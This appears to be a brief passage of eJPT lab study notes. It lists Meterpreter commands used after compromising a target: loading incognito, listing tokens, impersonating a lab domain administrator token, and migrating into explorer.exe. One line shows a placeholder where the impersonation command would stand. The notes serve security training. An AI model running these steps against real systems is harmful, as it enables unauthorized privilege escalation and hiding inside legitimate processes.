 __After getting access to the target system use below command in meterpreter__
- `load incognito`
- `list_tokens -u`
- `<name of the token> "ATTACKDEFENSE\administrator"`
![image](https://github.com/Chittu13/eJPTv2/blob/main/Image/new.png)
  - `migrate explorer.exe`

